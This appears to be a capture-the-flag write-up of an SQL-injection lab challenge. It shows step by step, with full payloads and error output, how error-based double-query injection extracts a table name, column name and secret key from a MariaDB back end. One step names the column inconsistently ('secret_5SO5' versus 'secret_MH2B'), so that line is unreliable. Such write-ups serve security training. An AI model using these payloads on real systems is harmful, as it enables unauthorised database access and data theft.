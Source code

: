 ## Challenge - 6

This challenge is based on double query injection and we have to use AND in this injection

### Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\ LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id = input 
```

We can check this using id=

```sql
0 or 1=1 --+
```

which will give us a login id and password. 

This challenge is similar to the previous one so we can use the same payload

### Solving

We can get the table name using: id=

```sql
1 AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```
Duplicate entry ':brswxk4bx6:0' for key 'group_key'
```

From which we get table_name = **brswxk4bx6**

Now we can get the column name using: id=

```sql
1 AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='brswxk4bx6' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```
Duplicate entry ':secret_MH2B:0' for key 'group_key'
```

From which we will get column_name = **secret_5SO5**

Now we can get the secret key using : id=

```sql
1 AND (select 1 from(select count(*),concat(0x3a,(select secret_MH2B from brswxk4bx6),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```
Duplicate entry ':MWEO9IB251RirQPBewbIgCfd:0' for key 'group_key'
```

where the key is :

**MWEO9IB251RirQPBewbIgCfd**